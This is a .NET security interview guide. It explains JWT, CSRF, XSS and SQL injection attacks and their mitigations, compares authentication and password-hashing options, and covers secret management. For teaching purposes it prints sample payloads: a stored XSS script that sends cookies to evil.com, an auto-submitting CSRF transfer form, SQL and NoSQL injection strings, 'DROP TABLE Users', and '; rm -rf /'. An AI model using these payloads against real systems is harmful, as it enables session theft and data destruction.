# 🔐 Security Interview Guide

> Authentication · JWT attacks · CSRF · XSS · SQL Injection · Password hashing · TLS · API security · Secret management
> Every topic: attack vector → exploit → mitigation with .NET code.

---

## 📋 Table of Contents

1. [Authentication vs Authorization](#1-authentication-vs-authorization)
2. [JWT Deep Dive & Attacks](#2-jwt-deep-dive--attacks)
3. [CSRF (Cross-Site Request Forgery)](#3-csrf-cross-site-request-forgery)
4. [XSS (Cross-Site Scripting)](#4-xss-cross-site-scripting)
5. [SQL Injection](#5-sql-injection)
6. [Password Hashing](#6-password-hashing)
7. [HTTPS / TLS Basics](#7-https--tls-basics)
8. [API Security](#8-api-security)
9. [Secret Management](#9-secret-management)

---

## 1. Authentication vs Authorization

> 📚 Reference: https://learn.microsoft.com/en-us/aspnet/core/security/

### Definition

**Authentication (AuthN)** — *Who are you?* Verifies identity (JWT, cookie, API key).  
**Authorization (AuthZ)** — *What can you do?* Checks permissions after identity is known.

```csharp
// Authentication: read token → populate User (ClaimsPrincipal)
app.UseAuthentication();   // MUST come before UseAuthorization

// Authorization: check User has required claims/roles/policy
app.UseAuthorization();

// ❌ Wrong order — authorization runs before user is set → always 403
app.UseAuthorization();
app.UseAuthentication();

// Controller-level:
[Authorize]                           // any authenticated user
[Authorize(Roles = "Admin")]          // must have Admin role
[Authorize(Policy = "CanApproveOrders")] // must satisfy policy

// Policy definition
builder.Services.AddAuthorization(options =>
{
    options.AddPolicy("CanApproveOrders", policy =>
        policy.RequireRole("Manager", "Admin")
              .RequireClaim("department", "finance")
              .RequireAssertion(ctx =>
                  ctx.User.FindFirst("approval_limit") is { } c &&
                  decimal.Parse(c.Value) >= 10_000));
});
```

### Common Auth Schemes

| Scheme | How | Use for |
|--------|-----|---------|
| JWT Bearer | Token in `Authorization: Bearer` header | SPAs, mobile, APIs |
| Cookie | Browser sends cookie automatically | Server-rendered web apps |
| API Key | Key in header or query string | Server-to-server, simple APIs |
| OAuth2 + OIDC | Delegated auth via Identity Provider | Third-party login (Google, Microsoft) |
| mTLS | Client certificate | Microservice-to-microservice |

---

## 2. JWT Deep Dive & Attacks

> 📚 Reference: https://jwt.io/

### JWT Structure
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9    ← Header (base64)
.
eyJzdWIiOiIxMjMiLCJyb2xlIjoiQWRtaW4ifQ  ← Payload (base64, NOT encrypted)
.
HMACSHA256(header + "." + payload, secret) ← Signature

Header:  { "alg": "HS256", "typ": "JWT" }
Payload: { "sub": "123", "email": "alice@test.com", "role": "Admin", "exp": 1735689600 }
```

**JWT is signed, NOT encrypted.** Payload is base64 — anyone can decode it. Never put secrets in JWT payload.

---

### Attack 1: Algorithm Confusion ("alg:none")

❌ **Vulnerable** — accepting `alg:none` allows forging tokens with no signature:
```csharp
// Attacker crafts: { "alg": "none" } header + { "role": "Admin" } payload + empty signature
// If server accepts alg:none → attacker is Admin without knowing secret key

// Old/misconfigured JWT libraries accepted this
```

✅ **Mitigation** — explicitly specify allowed algorithms:
```csharp
options.TokenValidationParameters = new TokenValidationParameters
{
    ValidAlgorithms        = new[] { SecurityAlgorithms.HmacSha256 }, // whitelist only HS256
    ValidateIssuerSigningKey = true,
    IssuerSigningKey         = new SymmetricSecurityKey(Encoding.UTF8.GetBytes(secret))
    // "none" algorithm is rejected automatically
};
```

---

### Attack 2: HS256/RS256 Confusion

If server uses RS256 (asymmetric — signs with private key, verifies with public key), attacker can use the **public key** as the HS256 HMAC secret to forge tokens.

✅ **Mitigation** — validate algorithm matches expected:
```csharp
// Always specify which algorithm you expect
ValidAlgorithms = new[] { SecurityAlgorithms.RsaSha256 };
// If algorithm in token != RsaSha256 → rejected
```

---

### Attack 3: JWT Stored in localStorage → XSS Theft

❌ **Wrong** — storing JWT in localStorage:
```js
localStorage.setItem("token", jwt); // XSS can read this via document.cookie or localStorage
```

✅ **Better** — store JWT in `httpOnly` cookie (JS cannot read it):
```csharp
// Server sets httpOnly cookie
Response.Cookies.Append("access_token", jwt, new CookieOptions
{
    HttpOnly  = true,    // JS cannot access
    Secure    = true,    // HTTPS only
    SameSite  = SameSiteMode.Strict, // CSRF protection
    Expires   = DateTimeOffset.UtcNow.AddHours(1)
});
```

---

### Attack 4: Expired Token Accepted

❌ **Wrong** — not validating `exp` claim:
```csharp
// Missing ValidateLifetime = true → expired tokens accepted forever!
TokenValidationParameters = new TokenValidationParameters
{
    ValidateIssuerSigningKey = true,
    IssuerSigningKey         = key
    // ValidateLifetime not set → defaults to false in some libraries
};
```

✅ **Correct** — always validate lifetime:
```csharp
TokenValidationParameters = new TokenValidationParameters
{
    ValidateLifetime     = true,          // check exp claim
    ClockSkew            = TimeSpan.Zero  // no tolerance for expired tokens (default is 5 min!)
};
```

---

### Token Refresh Pattern
```csharp
// Issue short-lived access token + long-lived refresh token
public (string accessToken, string refreshToken) IssueTokens(User user)
{
    var access  = GenerateJwt(user, expiry: TimeSpan.FromMinutes(15)); // short-lived
    var refresh = GenerateOpaqueToken();                                // random 256-bit string

    // Store refresh token in DB (hashed) — can be revoked
    _db.RefreshTokens.Add(new RefreshToken
    {
        Token     = HashToken(refresh),
        UserId    = user.Id,
        ExpiresAt = DateTime.UtcNow.AddDays(30),
        IsRevoked = false
    });

    return (access, refresh);
}

// Exchange refresh token for new access token
public async Task<string> RefreshAsync(string refreshToken)
{
    var hashed = HashToken(refreshToken);
    var stored = await _db.RefreshTokens
        .FirstOrDefaultAsync(r => r.Token == hashed && !r.IsRevoked && r.ExpiresAt > DateTime.UtcNow)
        ?? throw new UnauthorizedException("Invalid or expired refresh token");

    // Rotate: invalidate old refresh token, issue new one
    stored.IsRevoked = true;
    var (access, newRefresh) = IssueTokens(await _db.Users.FindAsync(stored.UserId)!);
    await _db.SaveChangesAsync();

    return access;
}
```

---

## 3. CSRF (Cross-Site Request Forgery)

### Attack Vector
```
1. Alice logs into bank.com — browser stores session cookie
2. Alice visits evil.com
3. evil.com has: <form action="https://bank.com/transfer" method="POST">
                    <input name="to" value="attacker">
                    <input name="amount" value="10000">
                 </form>
                 <script>document.forms[0].submit()</script>
4. Browser automatically sends bank.com session cookie → transfer executes!
Alice never clicked anything
```

### Mitigations

**1. SameSite Cookie (modern, recommended):**
```csharp
// Strict: cookie only sent for same-site requests (breaks some cross-site flows)
// Lax: cookie sent for top-level GET navigation (allows most flows, protects POST)
Response.Cookies.Append("session", value, new CookieOptions
{
    SameSite = SameSiteMode.Strict,
    HttpOnly = true,
    Secure   = true
});
```

**2. CSRF Token (classic approach, for cookie-based auth):**
```csharp
// ASP.NET Core anti-forgery
builder.Services.AddAntiforgery(options =>
{
    options.HeaderName = "X-XSRF-TOKEN"; // JavaScript reads cookie, sends in header
});

// In Razor pages / MVC forms — auto-injected
@Html.AntiForgeryToken()  // <input type="hidden" name="__RequestVerificationToken" value="...">

// API controller — validate header
[ValidateAntiForgeryToken]
[HttpPost]
public IActionResult Transfer(TransferRequest req) { ... }
```

**3. Why JWT Bearer is CSRF-immune:**
```
Cookie: automatically sent by browser → CSRF possible
JWT in Authorization header: browser never auto-sends custom headers
  → CSRF attacker cannot set Authorization header from evil.com
  → JWT APIs using Bearer tokens are inherently CSRF-safe
```

---

## 4. XSS (Cross-Site Scripting)

### Attack Types

**Stored XSS** — malicious script saved to DB, served to all users:
```
Attacker posts comment: <script>document.location='https://evil.com/steal?c='+document.cookie</script>
Server saves it. Alice views page → script executes → cookie stolen
```

**Reflected XSS** — script in URL parameter, reflected in response:
```
https://example.com/search?q=<script>alert(document.cookie)</script>
If server renders: <p>Results for: <script>alert(document.cookie)</script></p>
→ Executes in victim's browser
```

### Mitigations

**1. Encode output — never render raw user input:**
```csharp
// ❌ Wrong — raw user input rendered as HTML
return Content($"<p>Hello {username}</p>", "text/html"); // if username = <script>...</script>

// ✅ Correct — HTML encode before rendering
return Content($"<p>Hello {HtmlEncoder.Default.Encode(username)}</p>", "text/html");

// In Razor — automatic encoding by default
<p>Hello @Model.Username</p>     // ✅ Razor encodes automatically
<p>Hello @Html.Raw(Model.Username)</p> // ❌ @Html.Raw bypasses encoding — dangerous!
```

**2. Content Security Policy (CSP) header:**
```csharp
app.Use(async (ctx, next) =>
{
    ctx.Response.Headers["Content-Security-Policy"] =
        "default-src 'self'; " +              // only load resources from same origin
        "script-src 'self' 'nonce-{nonce}'; " + // scripts need nonce or same-origin
        "style-src 'self' https://fonts.googleapis.com; " +
        "img-src 'self' data: https:; " +
        "object-src 'none'; " +               // no Flash/plugins
        "frame-ancestors 'none'";             // no iframes (clickjacking protection)
    await next();
});
// Even if XSS script injected, CSP blocks it from executing (no inline scripts allowed)
```

**3. HttpOnly cookies — XSS can't steal tokens:**
```
HttpOnly cookie: cannot be accessed via document.cookie
Even if XSS executes → cannot steal session cookie
```

---

## 5. SQL Injection

### Attack Vector
```sql
-- Login form: username = "alice'--", password = "anything"
-- Vulnerable query:
"SELECT * FROM Users WHERE Username = '" + username + "' AND Password = '" + password + "'"
-- Becomes:
SELECT * FROM Users WHERE Username = 'alice'--' AND Password = 'anything'
-- '--' comments out password check → login as alice without password!

-- Drop table attack: username = "'; DROP TABLE Users; --"
SELECT * FROM Users WHERE Username = ''; DROP TABLE Users; --' AND ...
```

### Mitigations

❌ **Wrong** — string concatenation:
```csharp
var sql = $"SELECT * FROM Users WHERE Username = '{username}'";
var user = await _db.Database.ExecuteSqlRawAsync(sql); // injectable!
```

✅ **Correct** — parameterised queries (parameters are never interpreted as SQL):
```csharp
// Raw SQL with parameters — safe
var user = await _db.Users
    .FromSqlRaw("SELECT * FROM Users WHERE Username = {0}", username)
    .FirstOrDefaultAsync();

// ADO.NET parameterised
var cmd = new SqlCommand("SELECT * FROM Users WHERE Username = @username", conn);
cmd.Parameters.AddWithValue("@username", username); // value never interpreted as SQL

// EF Core LINQ — always parameterised automatically
var user = await _db.Users
    .Where(u => u.Username == username) // EF generates: WHERE Username = @p0
    .FirstOrDefaultAsync();

// EF Core interpolated string — safe (uses FormattableString, not string)
var user = await _db.Users
    .FromSqlInterpolated($"SELECT * FROM Users WHERE Username = {username}")
    .FirstOrDefaultAsync();
```

### Second-Order SQL Injection
```
Attack: attacker registers username = "admin'--"
System stores it safely (parameterised).
Later, admin panel retrieves username and uses it in a different non-parameterised query:
  "UPDATE Users SET Password = '" + storedUsername + "' WHERE ..."
→ the stored malicious value is now injected

Mitigation: ALWAYS use parameterised queries, even when data "came from your own DB"
```

---

## 6. Password Hashing

### Why Not MD5/SHA256?

```
MD5 hash of "password123" = 482c811da5d5b4bc6d497ffa98491e38
→ Same input = same hash (deterministic)
→ Rainbow table attack: precomputed hashes for millions of passwords
→ "482c811d..." found in rainbow table → "password123"

BCrypt/Argon2: includes random SALT per password
"password123" + salt1 = $2a$12$uniquehash1
"password123" + salt2 = $2a$12$differenthash2
→ Same password → different hash → rainbow tables useless
→ Work factor (cost) makes brute force computationally expensive
```

### Implementation

❌ **Wrong** — MD5/SHA256 without salt:
```csharp
var hash = Convert.ToHexString(MD5.HashData(Encoding.UTF8.GetBytes(password)));
// Crackable in seconds with rainbow tables
```

✅ **Correct** — BCrypt with work factor:
```csharp
// Install: dotnet add package BCrypt.Net-Next

// Hash (on registration)
string hash = BCrypt.Net.BCrypt.HashPassword(plainPassword, workFactor: 12);
// $2a$12$<22-char-salt><31-char-hash>
// workFactor 12 = 2^12 = 4096 iterations → ~200ms per hash (too slow for brute force)

// Verify (on login)
bool isValid = BCrypt.Net.BCrypt.Verify(plainPassword, storedHash);

// ASP.NET Core Identity uses PBKDF2 by default
builder.Services.AddIdentity<ApplicationUser, IdentityRole>()
    .AddEntityFrameworkStores<AppDbContext>();
// Identity hashes with PBKDF2-SHA256, 10000 iterations + salt automatically
```

### Password Policy
```csharp
builder.Services.AddIdentity<ApplicationUser, IdentityRole>(options =>
{
    options.Password.RequiredLength         = 12;
    options.Password.RequireDigit           = true;
    options.Password.RequireUppercase       = true;
    options.Password.RequireNonAlphanumeric = true;
    options.Lockout.MaxFailedAccessAttempts = 5;
    options.Lockout.DefaultLockoutTimeSpan  = TimeSpan.FromMinutes(15);
    options.Lockout.AllowedForNewUsers      = true;
});
```

---

## 7. HTTPS / TLS Basics

### How TLS Handshake Works
```
Client                                    Server
  │── ClientHello (TLS version, ciphers) ──►│
  │                                          │
  │◄── ServerHello + Certificate ────────────│
  │                                          │
  │  Client verifies certificate:            │
  │  ✅ Signed by trusted CA (e.g. DigiCert)?│
  │  ✅ Hostname matches CN/SAN?             │
  │  ✅ Not expired or revoked?              │
  │                                          │
  │── Generate pre-master secret             │
  │── Encrypt with server's public key ──────►│
  │                                          ├─ Decrypt with private key
  │                                          ├─ Both derive session key
  │                                          │
  │◄─────────── Encrypted traffic ──────────►│
```

### HTTPS in .NET
```csharp
// Force HTTPS everywhere
app.UseHsts();            // Strict-Transport-Security header: browser always uses HTTPS
app.UseHttpsRedirection(); // Redirect HTTP → HTTPS

// HSTS header tells browser: always use HTTPS for this domain for next year
// Response: Strict-Transport-Security: max-age=31536000; includeSubDomains; preload

// Certificate pinning for HttpClient (microservice-to-microservice)
var handler = new HttpClientHandler();
handler.ServerCertificateCustomValidationCallback = (message, cert, chain, errors) =>
{
    // Pin to specific thumbprint — reject even valid certs from other CAs
    return cert?.GetCertHashString() == expectedThumbprint;
};
```

### Certificate Management
```bash
# Azure App Service — auto-renews Let's Encrypt / App Service Managed Certificate
# Never hardcode certificates in app code or Docker images

# ASP.NET Core dev certificate
dotnet dev-certs https --trust
```

---

## 8. API Security

### OWASP API Security Top 10 + Mitigations

**BOLA (Broken Object Level Authorization)** — accessing another user's data:
```csharp
// ❌ Wrong — any authenticated user can get any order
[HttpGet("orders/{id}")]
[Authorize]
public Task<IActionResult> GetOrder(Guid id)
    => Ok(await _db.Orders.FindAsync(id)); // returns ANY order

// ✅ Correct — scope to current user
[HttpGet("orders/{id}")]
[Authorize]
public async Task<IActionResult> GetOrder(Guid id)
{
    var userId = User.FindFirst("sub")!.Value;
    var order  = await _db.Orders
        .FirstOrDefaultAsync(o => o.Id == id && o.UserId == userId); // ownership check!
    return order is null ? NotFound() : Ok(order);
}
```

**Mass Assignment** — client sets fields they shouldn't:
```csharp
// ❌ Wrong — user can POST { "role": "Admin", "isAdmin": true }
public async Task<IActionResult> Update(User user)
{
    _db.Users.Update(user); // attacker escalates own privilege!
    await _db.SaveChangesAsync();
}

// ✅ Correct — accept DTO, map only allowed fields
public async Task<IActionResult> Update(UpdateProfileDto dto)
{
    var user     = await _db.Users.FindAsync(CurrentUserId);
    user!.Name   = dto.Name;   // only allowed fields
    user.Bio     = dto.Bio;
    // role, isAdmin NOT settable via this endpoint
    await _db.SaveChangesAsync();
}
```

**Security Headers:**
```csharp
app.Use(async (ctx, next) =>
{
    var headers = ctx.Response.Headers;
    headers["X-Content-Type-Options"]    = "nosniff";          // no MIME sniffing
    headers["X-Frame-Options"]           = "DENY";             // no iframes (clickjacking)
    headers["X-XSS-Protection"]          = "1; mode=block";    // legacy XSS filter
    headers["Referrer-Policy"]           = "strict-origin-when-cross-origin";
    headers["Permissions-Policy"]        = "camera=(), microphone=(), geolocation=()";
    await next();
});
```

---

## 9. Secret Management

### What Is a Secret?
Connection strings, API keys, JWT signing keys, certificates, passwords. **Secrets must NEVER be in source code or Docker images.**

### Violation Examples
```bash
# ❌ Secrets in appsettings.json (committed to git)
{
  "Jwt": { "Key": "SuperSecretKey12345!" },
  "ConnectionStrings": { "Default": "Server=prod;Password=MyPassword123" }
}

# ❌ Secrets in environment variables in docker-compose.yml (committed to git)
environment:
  - DB_PASSWORD=MyPassword123

# ❌ Secrets in Dockerfile
ENV JWT_SECRET=abc123
```

### Correct Approaches

**1. Azure Key Vault (production):**
```csharp
// Program.cs — load secrets from Key Vault
builder.Configuration.AddAzureKeyVault(
    new Uri($"https://{vaultName}.vault.azure.net/"),
    new DefaultAzureCredential());  // uses Managed Identity — no credentials needed!

// Secret "ConnectionStrings--Default" in Key Vault
// maps to ConnectionStrings:Default in config (-- becomes :)
var connStr = builder.Configuration.GetConnectionString("Default"); // reads from Key Vault
```

**2. .NET User Secrets (development only, never committed):**
```bash
dotnet user-secrets set "Jwt:Key" "my-local-dev-secret"
dotnet user-secrets set "ConnectionStrings:Default" "Server=localhost;..."
# Stored in: %APPDATA%\Microsoft\UserSecrets\<projectId>\secrets.json
# NEVER pushed to git
```

**3. Kubernetes Secrets:**
```bash
kubectl create secret generic db-secret \
  --from-literal=connection-string="Server=prod;Password=..."
# Stored base64-encoded in etcd; use RBAC to restrict access
# Use Azure Key Vault provider for AKS to sync secrets automatically
```

**4. Secret Rotation — zero-downtime:**
```csharp
// Load secrets dynamically — reload on change (Azure Key Vault SDK supports this)
builder.Configuration.AddAzureKeyVault(vaultUri, credential, new KeyVaultSecretManager());

// Connection string rotation: add new secret version, update app config, old version disabled
// Zero-downtime because Key Vault returns latest active version
```

### Secret Scanning in CI
```yaml
# GitHub Actions — detect secrets before they reach main
- name: Scan for secrets
  uses: trufflesecurity/trufflehog@main
  with:
    path: ./
    base: main
    head: HEAD

# Pre-commit hook (local)
# Install: pip install detect-secrets
# detect-secrets scan > .secrets.baseline
# detect-secrets audit .secrets.baseline
```

---

> ✅ **9 security topics** — attack vectors, exploits, and mitigations with .NET code.
>
> 💡 **Security cheat sheet:**
> - JWT: **sign with RS256 in production** (asymmetric — private key stays on server)
> - Passwords: **BCrypt work factor 12** or ASP.NET Core Identity (PBKDF2)
> - CSRF: **SameSite=Strict cookies** + **JWT Bearer is CSRF-immune**
> - SQL injection: **always parameterise — EF LINQ is safe; Raw SQL needs `{0}` or `@param`**
> - Secrets: **Azure Key Vault + Managed Identity** — zero credentials in code
> - Headers: **CSP + X-Frame-Options + X-Content-Type-Options** on every response

---

*Last updated: 2026 | .NET 8 / OWASP API Security 2023*

---

# ⚖️ Security Comparisons — Side-by-Side Differences

---

## SEC-C1 — Authentication vs Authorization

| | Authentication (AuthN) | Authorization (AuthZ) |
|-|----------------------|----------------------|
| Question | "Who are you?" | "What can you do?" |
| Happens | First (identify user) | Second (check permissions) |
| Failure code | 401 Unauthorized | 403 Forbidden |
| Mechanism | JWT, cookie, API key, OAuth | Roles, claims, policies, RBAC |
| .NET middleware | `UseAuthentication()` | `UseAuthorization()` |

```csharp
// 401 — not authenticated (no token / bad token)
// 403 — authenticated but lacks permission (valid token, wrong role)

[Authorize]                           // 401 if no valid token
[Authorize(Roles = "Admin")]          // 403 if valid token but not Admin
[Authorize(Policy = "CanApprove")]    // 403 if valid token but policy fails
```

---

## SEC-C2 — JWT vs Session Cookies

| | JWT (Stateless) | Session Cookies (Stateful) |
|-|----------------|--------------------------|
| Server stores state | ❌ No (self-contained) | ✅ Yes (session store) |
| Scalability | ✅ Any server handles (stateless) | Needs sticky sessions or shared store (Redis) |
| Revocation | ❌ Hard (wait for expiry) | ✅ Instant (delete session) |
| CSRF risk | ❌ No (header-based) | ✅ Yes (auto-sent by browser) |
| Size | Larger (payload in token) | Small (session ID only) |
| Best for | SPAs, mobile, microservices | Server-rendered apps (MVC Razor Pages) |

```csharp
// JWT — stateless, header-based
Authorization: Bearer eyJhbGci...
// No server state — any instance can validate

// Session cookie — server must store session
Set-Cookie: .AspNetCore.Session=abc123; HttpOnly; SameSite=Strict
// Server looks up "abc123" in Redis/memory to get session data
```

---

## SEC-C3 — OAuth 2.0 vs OpenID Connect (OIDC)

| | OAuth 2.0 | OpenID Connect (OIDC) |
|-|----------|----------------------|
| Purpose | Authorization (access to resources) | Authentication (who the user is) |
| Token type | Access token | ID token (JWT) + Access token |
| User info | ❌ Not defined | ✅ `sub`, `email`, `name` claims in ID token |
| Built on | Protocol | Layer on top of OAuth 2.0 |
| Use for | "Login with Google" access to Drive API | "Login with Google" to know who the user is |

```
OAuth 2.0 flow (authorization):
User → "Allow MyApp to read your Google Drive?" → Access Token
MyApp uses Access Token to call Google Drive API

OIDC flow (authentication):
User → "Login with Google" → ID Token (contains sub/email) + Access Token
MyApp reads ID Token to know user identity (who they are)
```

---

## SEC-C4 — Symmetric vs Asymmetric Encryption

| | Symmetric (HS256) | Asymmetric (RS256 / ES256) |
|-|-----------------|--------------------------|
| Keys | Single shared secret | Key pair (private sign, public verify) |
| JWT signing | HMAC-SHA256 with secret | RSA or ECDSA with private key |
| Key distribution | ❌ Secret must be shared securely | ✅ Public key freely distributed |
| Performance | ✅ Faster | Slower |
| Use for | Single-service (issuer = verifier) | Multi-service (one issuer, many verifiers) |
| Risk if key leaked | All tokens forgeable | Only private key forgeable (public key safe to share) |

```csharp
// HS256 — both sides need the same secret (bad for microservices)
new SymmetricSecurityKey(Encoding.UTF8.GetBytes(secret))

// RS256 — auth server has private key, all services verify with public key
new RsaSecurityKey(rsa) { KeyId = "my-key-id" }
// Services download public key from /.well-known/jwks.json — no secret sharing needed
```

---

## SEC-C5 — Stored XSS vs Reflected XSS vs DOM-Based XSS

| | Stored XSS | Reflected XSS | DOM-Based XSS |
|-|-----------|--------------|---------------|
| Payload stored | ✅ In DB/server | ❌ In URL/form | ❌ Client-side only |
| Victim | Any user loading the page | Only user clicking crafted link | Only user visiting crafted URL |
| Server involvement | ✅ Serves malicious content | ✅ Reflects in response | ❌ Client JS only |
| Example | Malicious comment saved to DB | `?search=<script>...` reflected in response | `document.innerHTML = location.hash` |
| Mitigation | Output encoding + CSP | Output encoding + CSP | Avoid `innerHTML`; use `textContent` |

```csharp
// ❌ Stored XSS — unsanitised comment served to all users
<p>@Html.Raw(comment.Content)</p>  // executes any script in comment

// ✅ Razor auto-encodes (safe by default)
<p>@comment.Content</p>  // encodes < > " ' → &lt; &gt; &quot; &#x27;
```

---

## SEC-C6 — SQL Injection vs NoSQL Injection vs LDAP Injection

| | SQL Injection | NoSQL Injection | Command Injection |
|-|-------------|----------------|------------------|
| Target | SQL databases | MongoDB, etc. | OS shell |
| Attack vector | Unparameterised SQL strings | Unvalidated JSON operators | Unsanitised shell commands |
| Example payload | `' OR 1=1 --` | `{ "$gt": "" }` | `; rm -rf /` |
| Mitigation | Parameterised queries / EF LINQ | Schema validation, sanitise operators | Never pass user input to shell |

```csharp
// ❌ SQL injection
$"SELECT * FROM Users WHERE Name = '{input}'"  // input = "' OR 1=1 --"

// ❌ NoSQL injection (MongoDB)
var filter = $"{{ \"name\": \"{input}\" }}"  // input = {"$gt": ""} → returns all users

// ✅ Both fixed with parameterised / typed queries
_db.Users.Where(u => u.Name == input)  // EF LINQ — always safe
collection.Find(u => u.Name == input)  // MongoDB typed filter — safe
```

---

## SEC-C7 — CSRF vs XSS vs Clickjacking

| | CSRF | XSS | Clickjacking |
|-|------|-----|-------------|
| Attack type | Forged request from victim's browser | Script injection in victim's browser | Tricking user to click hidden element |
| Uses victim's | Session/cookie | Browser context (cookies, DOM) | Browser UI |
| Mitigation | SameSite cookies, CSRF token | CSP, output encoding | `X-Frame-Options: DENY`, `frame-ancestors 'none'` |
| Example | Fake form posting to bank.com | `<script>steal(document.cookie)</script>` | Invisible iframe over "Like" button |

---

## SEC-C8 — bcrypt vs PBKDF2 vs Argon2 vs SHA-256 for Passwords

| | SHA-256 (MD5) | bcrypt | PBKDF2 | Argon2 |
|-|--------------|--------|--------|--------|
| Password hashing | ❌ Never | ✅ Good | ✅ Good (.NET Identity default) | ✅ Best (2015 winner) |
| Salt built-in | ❌ Manual | ✅ | ✅ | ✅ |
| Work factor tunable | ❌ | ✅ (`workFactor`) | ✅ (`iterations`) | ✅ (time + memory) |
| Memory hardness | ❌ | ❌ | ❌ | ✅ (GPU-resistant) |
| .NET usage | ❌ Don't use for passwords | `BCrypt.Net` NuGet | ASP.NET Core Identity | `Konscious.Security.Cryptography` |

```csharp
// ✅ bcrypt — good default choice
string hash   = BCrypt.Net.BCrypt.HashPassword(password, workFactor: 12);
bool   isValid = BCrypt.Net.BCrypt.Verify(password, hash);

// ✅ ASP.NET Core Identity — PBKDF2-SHA512, 100,000 iterations, built-in
services.AddIdentity<ApplicationUser, IdentityRole>();
// PasswordHasher handles salt + stretching automatically

// ❌ SHA-256 — fast, no salt, crackable with rainbow tables in seconds
var hash = SHA256.HashData(Encoding.UTF8.GetBytes(password)); // NEVER for passwords
```

---

## SEC-C9 — API Key vs OAuth Token vs mTLS (Service-to-Service)

| | API Key | OAuth Token (JWT) | mTLS (Client Certificate) |
|-|---------|-----------------|--------------------------|
| Identity proof | ❌ Shared secret (anyone with key) | ✅ Signed by auth server | ✅ Certificate bound to service |
| Revocation | Delete key (manual) | Token expiry + refresh | Certificate revocation (CRL/OCSP) |
| Rotation | Manual | Automatic (short-lived) | Certificate renewal |
| Use for | Simple external APIs, webhooks | User-facing APIs, fine-grained scopes | Microservice mesh (zero-trust) |
| Risk if leaked | Anyone can use | Short expiry limits damage | Cannot be used without private key |


---

# 📊 Security Flow Diagrams — Visual Reference

---

## SEC-D1 — JWT Authentication Flow



---

## SEC-D2 — OAuth 2.0 + OIDC Login Flow



---

## SEC-D3 — TLS Handshake (Simplified)

